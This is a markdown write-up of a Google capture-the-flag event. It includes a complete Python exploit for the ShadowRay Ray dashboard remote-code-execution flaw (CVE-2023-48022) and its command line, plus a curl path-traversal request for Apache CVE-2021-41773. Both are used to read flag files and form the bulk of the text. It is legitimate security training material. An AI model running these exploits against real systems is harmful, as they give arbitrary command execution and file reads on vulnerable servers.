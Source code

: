 ```yaml
---
title: "Google InternetCTF writeup"
description: "https://capturetheflag.withgoogle.com/internet"
---
```


## Mic Check

```mdx
tap tap tap Is this thing on? Here's a flag CTF{welcome_internetctf}
```

## Exposed Ray Dashboard (known rce)

Read more about CVE-2023-48022 at : https://www.vicarius.io/vsociety/posts/the-story-of-shadowray-cve-2023-48022

Modified `exploit.py`

```python exploit.py
import argparse
import time
import os
import ray
from ray.job_submission import JobSubmissionClient, JobStatus
import re
import sys

# Function to submit a job to the Ray cluster
def submit_job(host, cmd):
    client = JobSubmissionClient(f"{host}")
    job_id = client.submit_job(
        entrypoint=f"{cmd}",
        runtime_env={"working_dir": "./"}
    )
    print(f"Submitted job ID: {job_id}")
    return client, job_id

# Wait for a job to reach a specified status or timeout
def wait_until_status(client, job_id, status_to_wait_for, timeout_seconds=300):
    start = time.time()
    while time.time() - start <= timeout_seconds:
        status = client.get_job_status(job_id)
        print(f"Status: {status}")
        if status in status_to_wait_for:
            break
        time.sleep(1)

# Check if the host matches the required format
def validate_host_format(host):
    if not re.match(r'^https?://\d{1,3}\.\d{1,3}\.\d{1,3}\.\d{1,3}:\d+$', host):
        print("Error: Host must be in the format 'http(s)://<ip>:<port>'.")
        sys.exit(1)
        
if __name__ == "__main__":
    # Parse command line arguments
    parser = argparse.ArgumentParser(description="Submit a job to Ray cluster with dynamic host and command execution.")
    parser.add_argument("--host", type=str, required=True, help="The host address of the Ray cluster head node. Format: http(s)://<ip>:<port>")
    parser.add_argument("--cmd", type=str, required=True, help="The command to be executed on the Ray cluster.")
    args = parser.parse_args()
    validate_host_format(args.host)

    client, job_id = submit_job(args.host, args.cmd)

    wait_until_status(client, job_id, {JobStatus.SUCCEEDED, JobStatus.STOPPED, JobStatus.FAILED})

    # Retrieve and print logs from the job
    logs = client.get_job_logs(job_id)
    print(logs)
```

get the ip of the hosted url using `dig`

```bash
 python3 exploit.py --host http://34.147.80.1:1337 --cmd 'cat /flag/flag.txt'
```

## Apache CVE-2021-41773 (path traversal)

Read more about CVE-2021-41773 at : https://www.hackthebox.com/blog/cve-2021-41773-explained

```bash
curl http://chal-apache.internet-ctf.kctf.cloud:1337/cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/flag/flag.txt
```

## Node-Red Exposed UI (known rce)